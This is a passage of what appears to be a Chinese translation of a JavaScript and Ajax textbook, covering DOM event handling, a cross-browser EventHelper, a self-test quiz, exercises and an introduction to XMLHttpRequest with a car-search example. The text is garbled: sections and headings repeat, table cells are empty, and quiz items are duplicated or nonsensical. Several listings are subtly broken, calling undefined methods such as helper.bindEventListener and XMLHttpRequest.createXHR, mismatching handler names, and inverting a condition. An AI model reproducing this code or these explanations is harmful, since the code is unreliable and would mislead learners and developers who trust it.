    return true;
  }
</script>
```

```html
<form action="doSomething" onsubmit="return validateForm(this);">
  <input name="input" type="text">
  <button type="submit">Submit</button>
</form>
```

从上面的列表可以看出，事件处理器中的关键字 `this` 指向附加了处理器的对象，换句话说，是事件的目标。一个常见的错误是将事件处理器作为一个对象的方法来创建的，并在该事件处理器内部使用 `this` 来引用该对象的其他函数或变量，然后将该事件处理器分配给 HTML 元素，并期望 `this` 的使用指向定义处理器的对象——而实际上该

⁴⁶ http://www.w3.org/TR/html401/inter/scripts.html#h-18.2.3.

## 4.4 文档对象模型（DOM）

### 表 4.4.1 HTML 4 事件

| 事件处理器 | HTML 标签 | 触发条件 |
| --- | --- | --- |
| `onblur` | `<button>`、`<input>`、`<select>`、`<textarea>`、`<body>` | 元素失去输入焦点，通常由用户点击另一个元素或通过 Tab 键切换到另一个元素引起。 |
| `onchange` | `<input>`、`<select>`、`<textarea>` | 元素失去焦点，且其值自获得焦点以来发生了变化。 |
| `onclick` | 大多数元素 | 用户点击该元素（鼠标按下并释放，或键盘等效操作）。 |
| `ondblclick` | 大多数元素 | 用户双击该元素。 |
| `onfocus` | `<button>`、`<input>`、`<label>`、`<textarea>`、`<body>` | 元素获得了输入焦点。 |
| `onkeydown` | 表单元素和 `<body>` | 用户按下了键盘键。 |
| `onkeypress` | 表单元素和 `<body>` | 用户按下并释放了键盘按键。 |
| `onkeyup` | 表单元素和 `<body>` | 用户释放了键盘按键。 |
| `onload` | `<frameset>`、`` | 文档完成下载到浏览器。 |
| `onmousedown` | 大多数元素 | 用户按下了鼠标键。 |
| `onmousemove` | 大多数元素 | 用户移动了鼠标。 |
| `onmouseout` | 大多数元素 | 用户将鼠标移出了元素。 |
| `mouseover` | 大多数元素 | 用户将鼠标移到了元素上方。 |
| `onmouseup` | 大多数元素 | 用户释放了鼠标键。 |
| `onreset` | `<form>` | 请求重置表单，通常由用户点击表单重置按钮引起。 |
| `onselect` | `<input>`、`<textarea>` | 用户选择了文本。 |
| `onsubmit` | `<form>` | 提交表单请求，通常当用户点击类型="submit" 的表单按钮时。 |
| `onunload` | `<body>`、`<frameset>` | 文档即将从窗口或帧中卸载。 |

⁷ 不支持此事件处理器的标签有 `<applet>`、`<bdo>`、`<br>`、`<font>`、`<frame>`、`<frameset>`、`<head>`、`<html>`、`<iframe>`、`<isindex>`、`<meta>` 和 `<style>`。

### 表 4.4.2 其他事件

| 事件处理器 | HTML 标签 | 触发条件 |
| --- | --- | --- |
| `onabort` | `` | 用户中断了图片的加载。 |
| `onerror` | ``、`<body>` 或 `window` 对象 | 与 `` 使用时，加载图片发生错误；否则，执行文档中的脚本时发生错误。 |
| `onresize` | `<body>`、`<frameset>` 或 `window` 对象 | 用户调整了窗口大小。 |
| `onscroll` | `<body>`、`<frameset>` 或任何样式为 `"overflow: auto"` 的元素 | 用户滚动了页面、帧或任何样式为 `"overflow: auto"` 的元素。 |

事件处理器使用 `this` 指向 HTML 元素，即定义处理器的对象。这是一个示例。

```javascript
var myObject = {
  myVar: "Some value",

  myMethod: function(value) {
    alert(value);
  },

  Handler: function() {
    this.myMethod(this.myVar);
  }
};
```

```javascript
// 点击按钮时将抛出错误
// 因为这指向按钮，而不是 myObject！

document.getElementsByTagName("button")[0].onclick = myObject.myHandler;
```


## 4.4 文档对象模型（DOM）

### 4.4.1 HTML 4 事件

（表格翻译已在上文完成，略）

### 4.4.3.1 DOM 层 2 事件处理

DOM 层 0 事件处理方便且易用，但具有局限性。例如，你无法为同一个事件注册多个处理程序。在 DOM 层 2 中，W3C 定义了一个显著先进的事件模型来克服这些局限性。

## EventHelper 示例

```javascript
var EventHelper = (function() {
  // 用于跟踪已注册的事件监听器的数组。
  /* private */ var eventListeners = [];

  // 从节点上移除监听器。
  /* private */ function detachListener(event) {
    var nodeObj = event.nodeObj;

    if (nodeObj.removeEventListener) {
      nodeObj.removeEventListener(
        event.name,
        event.listener,
        false
      );
    } else if (nodeObj.detachEvent) {
      nodeObj.detachEvent("on" + event.name, event.listener);
    }
  }

  // 从 eventListeners 数组中删除监听器。
  /* private */ function deleteListener(event) {
    var tempArray = [];

    for (var i = 0; i < eventListeners.length; i++) {
      if (eventListeners[i] != event) {
        tempArray.push(eventListeners[i]);
      }
    }

    eventListeners = tempArray;
  }

  // 移除所有监听器以防止 IE 中的内存泄漏。
  /* private */ function unbindAll(eventListeners) {
    for (var i = 0; i < eventListeners.length; i++) {
      detachListener(eventListeners[i]);
    }
    eventListeners.length = 0;
  }

  /* private */ var helper = {
    // 向节点添加监听器，并返回一个对象
    // 用于稍后移除监听器。
    bindListener: function(nodeObj, eventName, listener) {
      var listenerFn = listener;

      if (nodeObj.addEventListener) {
        // DOM 级事件模型
        nodeObj.addEventListener(eventName, listenerFn, false);
      } else if (nodeObj.attachEvent) {
        // IE 事件模型
        listenerFn = function() {
          // 在 IE 中，Event 是绑定到 window 的
          // 而不是传递给监听器的。
          listener(window.event);
        };

        nodeObj.attachEvent("on" + eventName, listenerFn);
      } else {
        throw new Error("Event registration not supported");
      }

      var event = {
        nodeObj: nodeObj,
        name: eventName,
        listener: listenerFn
      };

      eventListeners.push(event);
      return event;
    },

    // 移除指定的监听器。
    unbindEventListener: function(event) {
      detachListener(event);
      deleteListener(event);
    }
  };

  helper.bindEventListener(window, "unload", unbindAllListeners);
  return helper; // 暴露公共方法。
})();
```

**Listing 4.4.6**  
`EventHelper.js`（续）

`EventHelper` 不支持绑定捕获阶段事件监听器，因为 IE 不支持它们，而 `EventHelper` 的作用是辅助跨浏览器事件处理。如果你尝试使用捕获阶段事件监听器，你的代码在 IE 中无法运行。

IE 注册和注销事件监听器的方法分别是 `attachEvent()` 和 `detachEvent()`。IE 的 `attachEvent()` 方法要求在事件名称前加上 `"on"`，且 IE 事件处理机制不会像 DOM 那样将事件传递给监听器，而是将其赋值给 `window.event` 属性。IE 事件模型的这些特性在 `EventHelper.bindlistener()` 方法中得到了处理。

## 4.5 总结

本章涵盖了 JavaScript 语言的基础，包括其面向对象的特性、浏览器对象模型（BOM）、文档对象模型（DOM）以及如何在 JavaScript 中操作样式和处理 Web 事件。JavaScript、BOM 和 DOM 是客户端 Web 编程的基础。通过本章学到的知识，你可以编写大量的客户端 JavaScript 代码，对 Web 浏览器加载的内容进行各种奇妙的操作。这些技术通常被称为 DOM 脚本。

尽管你可以通过 DOM 脚本更改页面，但你受限于使用页面加载的数据和资源。如果你想用新数据更新页面或保存用户输入，必须添加与服务器的通信。在下一章中，你将学习如何将 DOM 脚本与异步服务器通信相结合以创建强大的 Web 应用程序。

## 4.6 自测习题

1. JavaScript 是强类型的。
   - a. 正确
   - b. 错误

2. JavaScript 是一种面向对象的语言。
   - a. 正确
   - b. 错误

3. JavaScript 类似于 Java 或 C 语言。
   - a. 正确
   - b. 错误

4. 当用户查看包含 JavaScript 的网页时，哪个机器执行 JavaScript 代码？
   - a. 网络
   - b. Web 服务器
   - c. Web 浏览器

5. 在哪个 HTML 元素内部可以放置 JavaScript 代码？
   - a. `<js>`
   - b. `<scripting>`
   - c. `<javascript>`
   - d. `<script>`

6. 在 HTML 页面的哪个位置可以放置 JavaScript 代码？
   - a. `<head>` 部分
   - b. `<head>` 部分和 `<body>` 部分均可
   - c. `<body>` 部分

7. 引用名为 `"xxx.js"` 的外部脚本的正确语法是什么？
   - a. `<script name="xxx.js">`
   - b. `<script href="xxx.js">`
   - c. `<script src="xxx.js">`

8. 外部 JavaScript 必须是：
   - a. 正确的
   - b. 错误的

9. 如何在 HTML 页面中引入外部脚本？
   - a. `<script src="xxx.js">`
   - b. `<script include="xxx.js">`
   - c. `<script link="xxx.js">`

10. 如何在 HTML 页面中包含外部脚本？
    - a. `<script src="xxx.js">`
    - b. `<script include="xxx.js">`
    - c. `<script link="xxx.js">`

11. 如何在 JavaScript 中调用函数？
    - a. `function()`
    - b. `function:`
    - c. `function=`

12. 条件语句的正确语法是？
    - a. `if =`
    - b. `if (`
    - c. `if:`

13. 不等于的运算符是？
    - a. `!=`
    - b. `!==`
    - c. `<>`

14. 如何在 JavaScript 中开启 `for` 循环？
    - a. `for =`
    - b. `for (`
    - c. `for:`

15. 如何在 JavaScript 中添加单行注释？
    - a. `//`
    - b. `#`
    - c. `/*`

16. 如何在 JavaScript 中添加多行注释？
    - a. `/* ... */`
    - b. `// //`
    - c. `# #`

17. 在 JavaScript 中创建数组的正确方式是？
    - a. `[ ]`
    - b. `array()`
    - c. `list()`

18. 如何将数字四舍五入到最近整数？
    - a. `rnd()`
    - b. `Math.round()`
    - c. `round()`

19. 打开新窗口的正确语法是？
    - a. `window.open()`
    - b. `open.new()`
    - c. `new.window()`

20. 如何获取客户端的浏览器名称？
    - a. `navigator.appName`
    - b. `browser.name`
    - c. `client.nav`

21. 哪项不是变量名？
    - a. `2names`
    - b. `_first_and_last`
    - c. `FirstLast`

22. 在 `switch` 表达式中哪种是接受的 `case` 语句？
    - a. `case 1:`
    - b. `case "yes":`
    - c. `case n + 1:`

## 4.7 习题

### 6. 修改段落文本

编写 JavaScript 代码，将以下 HTML 中的段落文本更改为 `"New content"`。

```html
<html>
<body>
  <p>Some content</p>
</body>
</html>
```

### 7. 为表格添加一行

编写 JavaScript 代码，为以下 HTML 表格添加下个月的一行。

```html
<html>
<body>
  <table>
    <tr><td>January</td></tr>
  </table>
</body>
</html>
```

### 8. 修改 CSS 类

编写 JavaScript 代码，将以下 HTML 中 `div` 的 CSS 类从 `hidden`（隐藏）改为 `visible`（可见）。

```html
<html>
<head>
  <style type="text/css">
    .visible { display: block; }
    .hidden { display: none; }
  </style>
</head>
<body>
  <div id="div1" class="hidden">Some content</div>
</body>
</html>
```

### 9. 判断代码输出

下列 JavaScript 代码的输出将是什么？

```javascript
var a = ["Richard", "Kai", "Lixin", "Xiang"];

for (var item in a) {
  document.write(item + "<br />");
}
```

### 10. 判断对象遍历输出

下列 JavaScript 代码的输出将是什么？

```javascript
var obj = {
  auth1: "Richard",
  auth2: "Kai",
  auth3: "Lixin",
  auth4: "Xiang"
};

for (var item in obj) {
  document.write(obj[item] + "<br/>");
}
```

### 11. 判断变量值

执行以下 JavaScript 代码后，变量 `x` 的值将是什么？

```javascript
function createMultiplier(multiple) {
  n = multiple;
  return function(num) {
    return num * n;
  };
}

var fiveMultiplier = createMultiplier(5);
var n = 10;
var x = fiveMultiplier(10);
```

### 12. 判断 `this` 的指向

在每个示例中，`this` 指向哪个对象？假设所有代码都在网络浏览器中执行，函数外的任何代码都是顶层代码。

#### a.

```javascript
this.now = new Date();
```

#### b.

```javascript
function Cube(length, width, height) {
  this.length = length;
  this.width = width;
  this.height = height;
}

var squareCube = new Cube(1, 1, 1);
```

#### c.

```javascript
function Cube(length, width, height) {
  this.length = length;
  this.width = width;
  this.height = height;
}

var squareCube = Cube(1, 1, 1);
```

#### d.

```javascript
function displayArea() {
  alert(Math.PI * Math.pow(this.radius, 2));
}
```

#### e.

```javascript
var circle = {
  radius: 5
};

displayArea.apply(circle);

var obj = {
  message: "Clicked!",
  notify: function() {
    alert(this.message);
  }
};

var button = document.getElementById("myButton");
button.onclick = obj.notify;
button.onclick();
```

### 13. 解释词法作用域和闭包

解释 JavaScript 中的词法作用域（lexical scoping），给出一个闭包的示例，并描述闭包作用域内包含的内容。

### 14. 定义自定义类型

为自定义类型定义一个构造函数，并使用它创建一个该类型的对象。展示实例属性和方法、类属性和方法以及私有属性和方法的示例。

### 15. 描述 JavaScript 继承

描述 JavaScript 中继承是如何工作的。展示一个演示多态（polymorphism）的简单示例。

### 16. 比较 DOM Level 0 和 DOM Level 2 事件处理

比较 DOM Level 0 和 DOM Level 2 事件处理，并描述 DOM Level 2 中捕获阶段（capturing phase）和冒泡阶段（bubbling phase）之间的区别。

## 4.8 编程练习

### 1. 创建表单并验证

创建一个 HTML 页面，其中包含一个表单，包含地址（街道、城市、州、国家和邮政编码）、电话号码字段以及提交按钮。为页面编写 JavaScript 代码，当用户点击提交按钮时验证表单字段，然后显示错误消息或成功消息。表单不需要提交到 Web 服务器。

JavaScript 代码应验证所有字段均已填写，并且邮政编码和电话对于该国家是有效的。JavaScript 代码应放在单独的文件中并导入 HTML 页面。为了简化代码，你可以将表单范围缩小为支持一个国家。

### 2. 自动创建目录

编写 JavaScript 代码，在网页浏览器加载页面后，自动在 HTML 页面顶部为同一 HTML 页面中找到的标题创建一个目录。目录中的每个列表项都应该是指向关联文档部分的链接。编写一个具有不同级别标题的 HTML 页面来演示该 JavaScript 代码的使用。

### 3. 创建类工具

编写一个 JavaScript 工具，其中包含一个可以调用的函数来定义类或扩展任何类。你应该至少能够传递新类的名称、该类的构造函数以及被扩展的类。其中某些参数（如被扩展的类）是可选的。

在一个包含继承并创建结果类实例的示例中使用该工具。该工具的示例可能如下所示：

```javascript
var Person = ClassHelper.createClass({
  name: "Person",
  constructor(...) {
    ...
  },
  methods: {
    ...
  }
});

var User = ClassHelper.createClass({
  name: "User",
  extends: Person,
  ...
});
```


```javascript
 constructor(...) { ... }, methods: { ... } });

var user1 = new User(1, "Richard", "Allen");
```

- 4. 创建一个由 JavaScript 管理的标签卡界面。创建标签卡界面的一种方法是将每个标签卡制作成独立的 HTML 页面。但在本例中，你将创建一个所有标签卡都在同一个 HTML 页面上并使用 JavaScript 进行隐藏和显示的标签卡界面。

## 4.9 参考文献

Cornford, Richard. "Private Static Members in JavaScript." Richard Cornford. 2004. http://www.litotes.demon.co.uk/js_info/private_static.html (访问于2008年2月28日)。

# 第 4 章 JavaScript 与文档对象模型

Crockford, Douglas. “Prototypal Inheritance in JavaScript” Douglas Crockford. 2008. http://javascript.crockford.com/prototypal.html (访问于2008年2月28日)。

Flanagan, Danny. 2006. JavaScript: The Definitive Guide. 5th ed. Sebastopol, CA: O'Reilly Media.

Goodman, Danny. 2002. Dynamic HTML: The Definitive Reference. 2nd ed. Sebastopol, CA: O'Reilly & Associates.

Hammond, David. “Web browser standards support.” David Hammond. 2008. http://www.webdevout.net/browser-support (访问于2008年1月28日)。

Keith, Jeremy. 2007. Bulletproof Ajax. Berkeley, CA: New Riders.

Koch, Peter-Paul. “W3C DOM Compatibility Tables” Peter-Paul Koch. 2008. http://www.quirksmode.org/dom/compatibility.html (访问于2008年1月28日)。

Mozilla.org. Core JavaScript 1.5 Reference, Mozilla.org. 2008. http://developer.mozilla.org/en/docs/Core_JavaScript_1.5_Reference (访问于2008年1月28日)。

## 5.2 XMLHttpRequest

为了避免生成错误，标签期望某个元素（例如图像或样式表），但该内容可以是未使用的、隐藏的或无关紧要的，以至于不会明显改变页面（例如一个透明的 1 × 1 像素图像）。如果你无法使用响应内容类型，也可以让服务器在响应中设置一个包含你所需信息的 cookie¹。

最流行的技术之一（Google Maps 已使用）是使用通过 CSS 隐藏的 `<iframe>` 或 `<frame>` 标签。将要发送到服务器的编码编码到 URL 中，并将该 URL 设置在框架的 `src` 属性中。服务器响应一个完整的 HTML 页面，该页面可以包含许多供主可见页面上使用的信息，包括执行某些任务的脚本。使用 `<script>` 标签也很流行，因为响应作为 JavaScript，会被浏览器自动执行。在 Web 远程动态创建 `<script>` 标签通常被称为按需 JavaScript（On-Demand JavaScript）。这种方法在某些 JavaScript 工具包中用于懒懒加载脚本²。

尽管这些技术使用了 HTML 标签（也称为远程脚本）并且通常有用，但严格来说，它们是对其设计意图的误用，因此有时很难在不同浏览器中正确且一致地实现。幸运的是，还有另一种专门为 Web 远程设计的技术。`XMLHttpRequest` 对象提供了对发送异步 HTTP 请求的完全支持，包括 HEAD、POST 和 GET，并且尽管其名称如此，它可以处理纯文本、XML 或 HTML 响应。XMLHttpRequest 和一些替代技术将在本章的后续进行详细讨论。

## 5.2 XMLHttpRequest

Ajax 闻名的真正驱动力是 `XMLHttpRequest` 对象。`XMLHttpRequest` 允许向服务器发送后台异步请求并接收响应。这允许 Web 应用程序处理用户输入并使用服务器数据响应，而无需让用户等待整个页面加载。正确使用 `XMLHttpRequest` 可以让 Web 应用程序感觉比传统的响应得多。

> ¹http://www.ashleyit.com/rs/ralite.
>
> ²http://ajaxpatterns.org/On-Demand.Javascript.

# 第 5 章 Web 远程技术——Ajax 中的 A

```html
<html xmlns="http://www.w3.org/1999/xhtml">

<head></head>

<body>

<form id="carSearchForm">

<label>

  <label for="year">Year:</label>

  <input id="year" name="year" type="text" size="5" /><br />

  <label for="make">Make:</label>

  <select id="make" name="make">

  <option value="Select Make..."></option>

  </select><br />

  <label for="model">Model:</label>

  <select id="model" name="model" disabled="disabled">

  <option value="Select Model..."></option>

  </select><br />

  <label for="zip">Zip:</label>

  <input id="zip" name="zip" type="text" size="11" /><br />

<div id="buttonRow">

  <button type="submit" disabled="disabled">Search for my next car!</button>

</div>

</form>

</body>

</html>
```



### 图 5.2.1

HTML 汽车搜索表单

Web 应用程序——感觉更像桌面应用程序。假设你正在开发一个 Web 应用程序，允许用户搜索他们地区出售的特定型号汽车。你可能有一个像图 5.2.1 所示表单的页面，允许用户选择他们寻找的汽车年份、品牌和型号，并输入邮政编码以缩小搜索范围。

你不想在页面上嵌入所有可能的品牌和型号，因为这样做会让页面变得非常大且加载变慢。你还希望在用户提交表单之前检查年份和邮政编码是否有效，但你希望将验证逻辑集中在服务器上，并且你倾向于在输入每个值后立即进行验证，而不是等到整个表单提交。你可以编写 JavaScript 代码直接在浏览器中验证用户输入。

## 5.2 XMLHttpRequest 179



图 5.2.2 未使用 XMLHttpRequest 的表单处理

然而，Web 开发的最佳实践要求你在客户端验证用户输入，你也应该在服务器上对数据进行验证，以确保数据没有被篡改。这意味着你必须用两种不同的语言编写验证逻辑：用于客户端的 JavaScript，以及你在服务器上使用的语言。用两种不同的语言编写两份验证逻辑副本会增加你的开发和维护时间。

本质上，你希望你的表单感觉更像桌面应用程序，而无需将所有数据和逻辑都放在客户端。为了实现这一点，你需要在每个字段填充后附加一个事件处理程序。在 `XMLHttpRequest` 出现之前，典型的做法是使用隐藏的 `<iframe>` 来发送请求并从响应中获取数据以更新主页面。图 5.2.2 展示了事件的可能顺序。步骤 1 是用户进入网站。在步骤 2 中，用户选择了一个品牌后，事件处理程序使用 `<iframe>` 将该品牌发送到服务器，随后加载整个页面。在步骤 3 中，用户填充了邮政编码，事件处理程序使用 `<iframe>` 将该邮政编码发送到服务器，随后加载整个页面。180 第 5 章 Web 远程技术——Ajax 中的 A



图 5.2.3 使用 XMLHttpRequest 的表单处理

用户必须等待每个字段重新加载后才能看到。除非页面非常小且网络非常快，否则用户可能会对你的网站并离开。你不想让用户在找到要买的汽车之前离开网站，因此让我们考虑替代方案。有了 `XMLHttpRequest`，存在一种更好的替代方案。图 5.2.3 展示了使用 `XMLHttpRequest` 时事件的可能顺序。步骤 1 与之前相同。在步骤 2 中，用户选择了一个品牌，事件处理程序使用 `XMLHttpRequest` 将该品牌发送到服务器，服务器仅返回列表，随后用于更新页面。在步骤 3 中，用户填充了邮政编码，事件处理程序使用 `XMLHttpRequest` 将输入的邮政编码发送到服务器，服务器仅返回验证消息，随后显示给用户。响应要快得多，因为客户端和服务器之间传输的信息很少，浏览器不需要渲染整个页面就可以显示如启用的 `<select>` 列表或简短的验证消息。

微软最早在 Internet Explorer 5.0 版本（1999 年 3 月发布）中实现了这一功能，以响应 Web Access 2000 开发者的需求。微软最初在名为 MSXML 的 XML 库中将该对象实现为 `XMLHttpRequest`。`XMLHttpRequest` 在 IE 中迅速流行，作为回应，Mozilla 将此想法移植到了 Mozilla 1.0 浏览器（2002 年 5 月发布）。Mozilla 决定将其对象命名为 `XMLHttpRequest` 并使其成为浏览器解释器的原生功能。Apple 随后提供了原生实现，Opera 在 8.0 版本（2005 年 4 月）中加入了原生实现，两者都将其对象命名为 `XMLHttpRequest`。最终，通过 Internet Explorer 7（2006 年 10 月），微软实现了原生的 `XMLHttpRequest`，他们也将其命名为此。

`XMLHttpRequest` 尚未成为 W3C 标准；但 W3C 已发布了 XMLHttpRequest 规范的工作草案，以记录浏览器厂商实现之间的共同点。此外，W3C 还将 `XMLHttpRequest` 背后的一些思想应用到了 DOM 第 3 加载和保存规范，该规范已成为 W3C 建议。总的来说，现代浏览器对支持 DOM Level 3 加载与保存。相反，现代浏览器中 XML-HttpRequest 的实现大部分是通用的——Firefox、Netscape、Opera、iCab、Safari、Konqueror 和 Internet Explorer 都支持它。

> ³http://developer.mozilla.org/en/docs/XMLHttpRequest.
>
> ⁴http://msdn2.microsoft.com/en-us/library/ms53584.aspx.
>
> ⁵http://www.w3.org/TR/XMLHttpRequest/
>
> ⁶http://www.w3.org/TR/DOM-Level-3-LS/

使用 `XMLHttpRequest` 本质上是一个三步骤的过程。

1. 创建一个 `XMLHttpRequest`
2. 配置并向服务器提交你的 HTTP 请求。
3. 处理服务器的响应。

后续章节将描述这些步骤。

### 5.2.1 创建 XMLHttpRequest 对象

要使用 `XMLHttpRequest`，你必须首先创建该对象的一个实例。由于微软在 IE 7 之前的实现是一个 ActiveX 对象，你需要使用一些条件逻辑。你首先检查原生的 `XMLHttpRequest` 对象是否存在并对其进行实例化；否则，你假设自己处于 IE 7 之前的 IE 浏览器中，并实例化 ActiveX 对象。如果你未能创建任何一个对象，则你假设你处于一个不支持 `XMLHttpRequest` 的浏览器中，你可以禁用 Ajax 功能，或者使用其他技术（例如第 5.3 节中讨论的隐藏 `<<iframe>>`）。列表 5.2.1 提供了一个可以用于实例化 `XMLHttpRequest` 对象的跨浏览器对象。我们将在本章的其余部分向此对象添加更多有用的函数。

在列表 5.2.1 中，我们通过一条语句定义并执行一个函数，创建并返回一个我们称为 `RequestHelper` 的对象。返回的对象定义了 `RequestHelper` 的公共函数，而返回语句之前的所有逻辑定义了只能由返回对象引用的私有数据。私有部分通过判断我们是否可以使用原生 `XMLHttpRequest` 对象，或者是否处于版本 7 之前的 IE 浏览器并使用 `XMLHttpRequest` ActiveX 对象来初始化 `RequestHelper`。

由于微软的 MSXML 库存在多个版本，且同一台计算机上可以安装多个版本，我们必须确定哪个版本可用。`msXmlVersions` 数组包含了标识 MSXML 版本的 ProID。该 ProID 必须传递给 `ActiveXObject` 构造函数。如果浏览器不支持该 ProID，`ActiveXObject` 构造函数将抛出错误。

## 5.2 XMLHttpRequest

辅助创建和使用 XMLHttpRequest 的对象。

```javascript
var RequestHelper = (function() {

  // 在 IE 浏览器中尝试的 MSXML XMLHTTP 版本。

  var msmlVersions = ["Msxml2.XMLHTTP.6.0", "Msxml2.XMLHTTP.3.0"];

  // 适用于此浏览器的正确 XMLHttpRequest 函数。

  var xhrFunction = null;

  // 确定哪个 XMLHttpRequest 对象可用。

  if (window.XMLHttpRequest) {

    xhrFunction = function() { return new XMLHttpRequest(); };

  } else if (window.ActiveXObject) {

    // 尝试每个 XMLHTTP 版本直到其中一个可用。

    for (var i = 0; i < msmlVersions.length; i++) {

      xhrFunction = function() {

        return new ActiveXObject(msmlVersions[i]);

      };

      try {

        xhrFunction();

      } catch (e) {

        continue;

      }

      break;

    }

  }

  // 返回一个定义公共 API 的对象。

  return {

    /**

     * 创建并返回一个新的 XMLHttpRequest 实例。

     * 如果此浏览器不支持则抛出错误。

     */

    createXHR: function() {

      var xhrObj = null;

      if (xhrFunction != null) {

        xhrObj = xhrFunction();

      }

      if (xhrObj == null) {

        // 浏览器不支持 XMLHttpRequest。

        throw new Error("XMLHttpRequest not supported.");

      }

      return xhrObj;

    }

  };

})() // 一条语句定义并执行。
```

**列表 5.2.1 `RequestHelper.createXHR` 方法**

发现支持哪个版本的唯一方法是尝试每一个版本，从最理想到最不理想。微软建议使用的 MSXML 版本只有 3.0 和 6.0。6.0 是首选，3.0 是备选。

### 5.2.2 发送请求

幸运的是，一旦你创建了实例，API 是相同的。让我们列出属性和方法：

```javascript
void abort()
```

中止请求。这可以用于耗时过长的请求。

```javascript
String getAllHeaders()
```

返回响应的所有标头。

```javascript
String getResponseHeader(header)
```

返回指定标头的值。

```javascript
void open(method, url, async, user, password)
```

初始化请求。`method` 是定义操作的字符串，`url` 是目标 URL，`async` 是指示是否异步发送请求的布尔值。默认该值为 `true`。`user` 和 `password` 是用于身份验证的可选字符串。

```javascript
void send(data)
```


# 第 5 章 Web 远程处理技术——Ajax 中的 A

为了演示一些代码，我们将在图 5.2.1 所示表单所展示的“汽车搜索”示例的基础上进行构建。我们已经讨论过如何为汽车下拉列表附加一个事件处理器，该处理器会从服务器下载相关的模型并将其分配给汽车模型下拉列表。代码列表 5.2.2 展示了你可能如何使用 `XMLHttpRequest` 在用户选择汽车后，处理从服务器获取汽车模型的操作。

在代码列表 5.2.2 中，我们定义了一个名为 `fetchModels` 的事件处理器（函数），它接收一个汽车品牌（`make`）并设置一个 `XMLHttpRequest` 来从服务器下载相关的模型。`fetchModels` 函数首先通过代码列表 5.2.1 中定义的 `RequestHelper` 创建一个 `XMLHttpRequest` 对象。然后定义 `onreadystatechange` 函数。每当 `XMLHttpRequest` 的 `readyState` 改变时，`onreadystatechange` 回调函数就会被调用。回调函数没有传递参数，但你需要使用 `XMLHttpRequest` 对象来获取响应数据，因此必须保持 `XMLHttpRequest` 对象的引用或使用闭包，正如我们在这里所的那样。在回调函数内部，我们在处理响应之前必须检查状态是否为 4 Completed，因为响应可能尚未完成。我们还必须检查是否获取了成功的 HTTP 状态头部，服务器可能会遇到错误，在这种情况下 `responseText` 将是空的。在我们确定响应完整且成功后，再处理响应。在这个示例中，我们展示了你可能如何处理一个由一组 HTML `<option>` 标签字符串组成的响应。这里 `response` 返回一个如下的汽车模型选项字符串：

```
<option value='...'>Envoy</option><option value='...'>Sierra</option>..."
```

得益于 `innerHTML` 属性，我们可以将这些选项直接应用于模型的 `<select>` 标签。

```javascript
var models = request.responseText;
var modelSelect = document.getElementById("model");
modelSelect.innerHTML = models;
```

所有主流浏览器在 DOM 对象上都提供一个名为 `innerHTML` 的非标准属性。赋值给 `innerHTML` 的字符串会被解析为 DOM 对象并用于替换标签的主体内容。更改会立即反映在页面显示上。尽管在技术上它是私有的，因此并不是所有人都推荐使用，但 `innerHTML` 属性在主流浏览器之间是兼容的，易于使用，且处理速度通常更快。

## 5.2 XMLHttpRequest

- 为给定的品牌从服务器请求汽车模型
- 并通过响应更新模型下拉列表。

```javascript
function fetchModels(selectedMake) {
  // 创建一个 XMLHttpRequest 对象。
  var request = XMLHttpRequest.createXHR();

  // 定义 readyState 事件处理器来处理响应。
  request.onreadystatechange = function() {
    // 我们只关心状态码 4，
    // 即响应已接收时。
    if (request.readyState == 4) {
      // 状态 200 告诉我们响应是 OK。
      // 状态 304 告诉我们响应是从
      // 浏览器缓存提取的。两种状态都是好的。
      if (request.status == 200 || request.status == 304) {
        // 响应是一个 HTML 选项字符串。
        // 我们可以获取该值并直接将其
        // 设置为 model select 标签体。
        var models = request.responseText;
        var modelSelect = document.getElementById("model");
        modelSelect.innerHTML = models;
        modelSelect.disabled = false;
      } else {
        // 发生了某些错误，因此通知用户。
        alert("获取汽车模型失败。服务器响应：" +
          request.status + " " + request.responseText);
        document.getElementById("model").selectedIndex = 0;
      }
    }
  };

  // 告诉我们要请求的 URL。
  request.open("GET",
    "http://localhost/ajax-ch5/getModels.php?make="
    + encodeURIComponent(selectedMake), true);

  // 发送请求。
  request.send(null);
}
```
代码列表 5.2.2 使用 `XMLHttpRequest` 获取模型（续）

```javascript
/**
* 添加事件处理器。
*/
function init() {
  // 设置一个事件处理器，在选择
  // 时查找。
  var makeSelect = document.getElementById("make");
  makeSelect.onchange = function() {
    var selectedMade = makeSelect.options[makeSelect.selectedIndex].value;
    if (selectedMade) {
      // 在取消选择品牌时重置模型。
      document.getElementById("model").selectedIndex = 0;
      document.getElementById("model").disabled = true;
    } else {
